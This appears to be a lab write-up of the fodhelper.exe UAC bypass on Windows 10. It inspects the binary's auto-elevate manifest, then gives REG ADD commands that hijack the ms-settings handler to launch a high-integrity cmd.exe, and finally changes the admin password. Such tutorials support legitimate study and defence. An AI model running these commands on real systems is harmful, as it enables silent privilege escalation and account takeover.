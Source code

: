 ```yaml
---
description: >-
  (UAC) Bypass - fodhelper.exe
title: (UAC) Bypass - fodhelper.exe              # Add title here
date: 2023-01-23 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Windows - (UAC) Bypass - fodhelper.exe]                     # Change Templates to Writeup
tags: [uac bypass, fodhelper, windows privesc]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

UAC can be bypassed in various ways. This post is only a technique that allows an administrator user to bypass UAC by silently elevating our integrity level from medium to high.

Most of the publicly known UAC bypass techniques target a specific operating system version. In this case, the target is our lab client running Windows 10 build 1709. We will leverage an interesting UAC bypass based on fodhelper.exe, a Microsoft support application responsible for managing language changes in the operating system. Specifically, this application is launched whenever a local user selects the "Manage optional features" option in the "Apps & features" Windows Settings screen.

The fodhelper.exe binary runs as _high integrity_ on Windows 10 1709. We can leverage this to bypass UAC because of the way fodhelper interacts with the Windows Registry. More specifically, it interacts with registry keys that can be modified without administrative privileges.

In order to gather detailed information regarding the fodhelper integrity level and the permissions required to run this process, we will inspect its _application manifest_. The application manifest is an XML file containing information that lets the operating system know how to handle the program when it is started. We'll inspect the manifest with the sigcheck utility from Sysinternals, passing the -a argument to obtain extended information and -m to dump the manifest.

```powershell 
C:\> cd C:\Tools\privilege_escalation\SysinternalsSuite

C:\Tools\privilege_escalation\SysinternalsSuite> sigcheck.exe /accepteula -a -m C:\Windows\System32\fodhelper.exe

c:\windows\system32\fodhelper.exe:
        Verified:       Signed
        Signing date:   4:40 AM 9/29/2017
        Publisher:      Microsoft Windows
        Company:        Microsoft Corporation
        Description:    Features On Demand Helper
        Product:        Microsoft« Windows« Operating System
        Prod version:   10.0.16299.15
        File version:   10.0.16299.15 (WinBuild.160101.0800)
        MachineType:    32-bit
        Binary Version: 10.0.16299.15
        Original Name:  FodHelper.EXE
        Internal Name:  FodHelper
        Copyright:      ® Microsoft Corporation. All rights reserved.
        Comments:       n/a
        Entropy:        6.306
        Manifest:
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!-- Copyright (c) Microsoft Corporation -->
<assembly
   xmlns="urn:schemas-microsoft-com:asm.v1"
   xmlns:asmv3="urn:schemas-microsoft-com:asm.v3"
   manifestVersion="1.0">
 <assemblyIdentity type="win32" publicKeyToken="6595b64144ccf1df" 
    name="Microsoft.Windows.FodHelper" version="5.1.0.0" 
    processorArchitecture="x86"/>
 <description>Features On Demand Helper UI</description>
 <trustInfo xmlns="urn:schemas-microsoft-com:asm.v3">
  <security>
      <requestedPrivileges>
          <requestedExecutionLevel
            level="requireAdministrator"
          />
      </requestedPrivileges>
  </security>
 </trustInfo>
 <asmv3:application>
    <asmv3:windowsSettings 
      xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
        <dpiAware>true</dpiAware>
        <autoElevate>true</autoElevate>
    </asmv3:windowsSettings>
 </asmv3:application>
</assembly>
```

A quick look at the results shows that the application is meant to be run by administrative users and as such, requires the full administrator access token. Additionally, the _autoelevate_ flag is set to _true_, which allows the executable to auto-elevate to _high integrity_ without prompting the administrator user for consent.

This could allow us to hijack the execution through a properly formatted protocol handler. Let's try to add this key with the _REG_ utility:

```powershell
C:\Users\admin> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
The operation completed successfully.

C:\Users\admin>
```

Fodhelper.exe attempts to query a value (DelegateExecute) stored in our newly-created command key. Our hope is that when fodhelper discovers this empty value, it will follow the MSDN specifications for application protocols and will look for a program to launch specified in the Shell\\Open\\command\\Default key entry.

We will use REG ADD with the /v argument to specify the value name and /t to specify the type:

```powershell
C:\Users\admin> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
The operation completed successfully.
```

We'll set our new registry value. We'll also specify the new registry value with /d "cmd.exe" and /f to add the value silently.

```powershell
C:\Users\admin> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
The operation completed successfully.
```

After setting the value and running fodhelper.exe once again, we are presented with a command shell. The output of the whoami /groups command indicates that this is a high-integrity command shell. Next, we'll attempt to change the admin password to see if we can successfully bypass UAC:

```powershell
C:\Windows\system32> net user admin Ev!lpass
The command completed successfully.
```

The password change is successful and we have successfully bypassed UAC!